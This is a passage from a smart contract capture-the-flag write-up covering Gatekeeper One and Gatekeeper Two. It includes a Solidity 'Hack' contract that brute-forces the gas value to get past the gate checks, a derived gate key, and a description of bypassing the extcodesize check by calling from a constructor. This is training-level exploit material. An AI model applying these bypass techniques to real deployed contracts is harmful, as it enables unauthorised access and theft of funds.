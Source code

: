 ```
web3.utils.encodePacked(19071)
```

This returns `0x0000000000000000000000000000000000000000000000000000000000004a7f` which is in bytes 32. In bytes8 we have `0x0000000000004a7f`.

We need to modify this last value to make the following true `uint32(uint64(_gateKey)) != uint64(_gateKey)`. This is quite simple. I replaced a 0 with any other value in the first 4 leftmost bytes. I chose `0x1000000000004a7f`. This is the correct value for `_gateKey` relative to my EOA.

Here is the hack contract I deployed to complete the challenge.

```js
contract Hack {
  GatekeeperOne target;

  constructor(address _targetAddress) {
    target = GatekeeperOne(_targetAddress);
  }

  // running the tx without gate two costs 49829 gas. Let's start there
  // 300000 is an arbitray number i selected
  function hack() external {
    for(uint256 i = 49829; i <= 49829 + 3000000; i++){
      (bool success, ) = address(target).call{gas: i}(abi.encodeWithSignature("enter(bytes8)", bytes8(0x1000000000004a7f)));
      if (success) {
        break;
      }
    }
  }
}
```

## <a id="14"></a>Level 14 - Gatekeeper Two

### Objective

1. Register as an entrant.

<details><summary>Level Contract</summary></details>

### Solution

This level follows the same idea as the previous one.

To pass `gateOne` we need to deploy a contract and interact with `GatekeeperTwo` through it. This is because `tx.origin` and `msg.sender` will not be the same.

To pass `gateTwo` will need creativity. The assembly section uses two Opcodes. `caller` which in this case is `msg.sender`. `extcodesize` is the size of the code of a contract in bytes. So the `require` condition is that the contract that interact with `GatekeeperTwo` needs to have a size of zero. This is technically impossible **once the contract is deployed**. On the other hand, if the interaction happens inside the `constructor`, `extcodesize` will evaluate to 0.

